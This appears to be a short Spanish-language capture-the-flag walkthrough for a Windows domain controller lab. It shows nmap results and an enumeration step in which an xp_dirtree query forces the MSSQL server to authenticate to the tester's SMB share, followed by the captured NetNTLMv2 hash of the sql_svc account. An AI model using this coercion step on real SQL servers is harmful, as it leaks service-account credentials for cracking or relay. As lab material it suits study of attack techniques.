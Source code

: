 ```bash
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49685/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49687/tcp open  msrpc         Microsoft Windows RPC
49704/tcp open  msrpc         Microsoft Windows RPC
49709/tcp open  msrpc         Microsoft Windows RPC
65049/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| ms-sql-info:
|   10.10.11.202:1433:
|     Version:
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| smb2-time:
|   date: 2023-04-15T12:19:09
|_  start_date: N/A
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled and required
|_clock-skew: mean: 7h59m59s, deviation: 0s, median: 7h59m58s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 97.28 seconds
```

## Enumeración

### Servicios

#### Nombre de servicio - Puerto

##### Manual

```bash
SQL> xp_dirtree '\\10.10.14.5\smbFolder'
subdirectory
```

```bash
sql_svc::sequel:aaaaaaaaaaaaaaaa:2a68c844617f03e699f0102c341271f4:010100000000000080f660f35d6fd901a90afcd28f7f354c00000000010010004100660067005000720049004e005400030010004100660067005000720049004e0054000200100050006900720055006b007700510045000400100050006900720055006b007700510045000700080080f660f35d6fd901060004000200000008003000300000000000000000000000003000009cda1e46ee79bae57149ebe478a06f0f35ca523d83fff147be6e50e8a1b524360a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310034002e0035000000000000000000
```
